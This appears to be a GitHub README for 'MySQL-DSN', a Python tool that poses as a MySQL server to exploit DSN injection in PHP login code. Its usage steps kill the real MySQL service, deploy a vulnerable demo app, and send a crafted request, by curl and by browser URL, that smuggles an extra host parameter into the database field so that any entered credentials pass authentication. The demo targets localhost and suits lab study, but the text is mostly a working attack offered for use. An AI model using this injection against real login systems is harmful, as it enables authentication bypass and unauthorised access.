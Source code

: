 # MySQL-DSN
MYSQL-DSN is a tool that act like as "MySQL server" to exploit DSN vulnerability in authentication by return the entered username, and password.

### Example
if MySQL server is installed and running, stop MySQL server
```
service mysql stop
pkill -9 mysql
```
start MySQL-DSN server
```
python3 MySQL-DSN.py
```
start apache2 web server to demonstrate the vulnerable web application
```
service apache2 start
```
copy index.php success.php from example folder to your web server default /var/www/html/
```
cp ./example/index.php ./example/success.php /var/www/html/
```
exploit using curl
```
curl --cookie $(curl -I -X GET 'http://localhost/index.php?login=&username=test&password=test&db=testing;host=127.0.0.1:3306' | grep -o -P '(?<=: ).*(?=;)' | awk 'NR==1{print $1}') -X GET http://localhost/success.php
```
exploit using the browser
```
http://localhost/index.php?login=&username=test&password=test&db=testing;host=127.0.0.1:3306
```

